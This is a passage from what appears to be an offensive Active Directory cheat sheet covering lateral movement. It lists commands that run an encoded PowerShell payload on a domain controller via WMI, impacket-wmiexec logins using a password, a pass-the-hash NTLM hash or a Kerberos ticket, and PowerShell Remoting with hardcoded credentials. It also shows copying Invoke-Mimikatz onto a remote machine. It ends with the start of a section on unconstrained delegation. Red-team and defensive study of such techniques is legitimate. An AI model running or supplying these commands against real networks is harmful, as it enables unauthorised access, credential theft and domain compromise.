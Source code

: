 #### From Windows

```powershell
Invoke-WmiMethod win32_process -ComputerName dc.targetdomain.com -name create -argumentlist "powershell.exe -e $encodedCommand"
```

#### From Linux

```bash
# with password
impacket-wmiexec DOMAIN/targetuser:password@172.16.4.101

# with hash
impacket-wmiexec DOMAIN/targetuser@172.16.4.101 -hashes :e0e223d63905f5a7796fb1006e7dc594

# with Kerberos authentication (make sure your client is setup to use the right ticket, and that you have a TGS with the right SPNs)
impacket-wmiexec DOMAIN/targetuser@172.16.4.101 -no-pass -k
```

### Command execution with PowerShell Remoting

*Requires 'CIFS' and 'HTTP' SPNs. May also need the 'WSMAN' or 'RPCSS' SPNs (depending on OS version)*

```powershell
# Create credential to run as another user (not needed after e.g. Overpass-the-Hash)
# Leave out -Credential $Cred in the below commands to run as the current user instead
$SecPassword = ConvertTo-SecureString 'VictimUserPassword' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\targetuser', $SecPassword)

# Run a command remotely (can be used on multiple machines at once)
Invoke-Command -Credential $Cred -ComputerName dc.targetdomain.com -ScriptBlock {whoami; hostname}

# Launch a session as another user (prompt for password instead, for use with e.g. RDP)
Enter-PsSession -ComputerName dc.targetdomain.com -Credential DOMAIN/targetuser

# Create a persistent session (will remember variables etc.), load a script into said session, and enter a remote session prompt
$sess = New-PsSession -Credential $Cred -ComputerName dc.targetdomain.com
Invoke-Command -Session $sess -FilePath c:\path\to\file.ps1
Enter-PsSession -Session $sess

# Copy files to or from an active PowerShell remoting session
Copy-Item -Path .\Invoke-Mimikatz.ps1 -ToSession $sess -Destination "C:\Users\public\"
```

### Unconstrained delegation

Unconstrained Delegation can be set on a *frontend service* (e.g., an IIS web server) to allow it to delegate on behalf of a user to *any service in the domain* (towards a *backend service*, such as an MSSQL database).
